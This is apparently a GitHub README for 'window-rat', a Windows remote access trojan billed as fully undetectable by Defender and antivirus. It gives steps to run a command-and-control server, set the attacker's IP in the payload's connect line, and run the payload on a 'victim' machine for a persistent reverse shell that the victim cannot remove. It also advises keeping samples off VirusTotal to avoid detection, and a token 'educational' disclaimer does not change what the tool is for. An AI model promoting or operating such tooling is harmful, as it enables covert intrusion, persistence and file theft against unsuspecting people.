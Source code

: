 # window-rat:

# NOTE:
    Use new Cross Plaftorm FUD RAT https://github.com/machine1337/pyFUD
# Introduction:
    A Fully Undectable Window RAT that bypass window 10 Defender protection and also bypass 99.9% of other antivirus protections.
    
![c2a](https://user-images.githubusercontent.com/82051128/201597249-39a6b071-1277-4bbf-a720-f9d1aa537d0e.png)

# C2 Server Requirements:-
       pip install termcolor
       pip install pyfiglet
 
# Installation:
    1. git clone https://github.com/machine1337/window-rat
    2. pip install -r requirements.txt
    3. python3 c2.py (your command server from where u will handle targets)
    4. payload.py (your payload u will send to victim)
    5. IP and Port in both payload.py and server.py Must be same
    
# Usage:
    1. python3 c2.py
    2. Now enter IP (your IP or server in which u want to get reverse shell)
    3. Now enter PORT (which port u want to connect)
    4. Listener will be started
    5. Now go to payload.py line no. 36 and put ip and port of server s.connect(('ipserver', portserver))
    6. test the payload.py on victim system
 
# Commands:-
   -> C2 SERVER COMMANDS:
      ![c21](https://user-images.githubusercontent.com/82051128/201598677-206191a5-c671-4007-9f9a-402db123ec99.png)
   
   -> After Got Connection (type help)
      ![shellc2](https://user-images.githubusercontent.com/82051128/201598869-0b6fe1c8-9ed6-4e4b-997d-42f66a59f0ca.png)

# Warning:
    1. Don't Upload Any Payloads To VirusTotal.com Bcz This tool will not work
       with Time.
    2. Virustotal Share Signatures With AV Comapnies.
    3. Again Don't be an Idiot!

# Features:
    1. Very Simple And Fully Undectable RAT For Windows
    2. Multi Client Handling
    3. Persistent  Shell
    4. Upload File
    5. Download File
    4. Once Victim Execute the Payload And We got Shell Then Victim Can't Remove the payload
       Until the Shell is Open In Attacker System.
    5. U can Convert payload.py to exe using pyinstaller tool in windows.
    
# Note:
    Don't upload exe format to virustotal as I have already uploaded
    Ps payload to virustotal. or u can check this file on nodistribute.com because they
    don't submit signatures to antivirus companies.
    Reason: They will submit this payload to different AV companies
    And as a result this script will not work w.r.t time.
# Contact:
    Telegram Group: https://t.me/machine1337
    
# Donations:
   BTC Address:  3Dvzx2RKMR731VSEPXXgPyBq6Ln4JJdYPD
   


# Warning:
    Use this tool Only for Educational Purpose And I will Not be Responsible For ur cruel act.
    
    
